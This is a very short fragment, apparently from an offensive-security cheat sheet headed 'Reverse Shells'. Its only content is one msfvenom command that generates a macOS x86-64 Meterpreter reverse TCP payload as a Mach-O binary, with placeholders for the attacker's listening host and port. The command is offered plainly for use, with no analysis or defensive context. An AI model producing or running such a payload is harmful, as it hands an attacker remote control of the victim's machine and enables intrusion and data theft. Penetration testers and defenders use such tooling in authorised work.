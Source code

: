 # Reverse Shells

1. x86-64 (64-bit) Payloads

```
$ msfvenom -p osx/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f macho -o payload-x64
```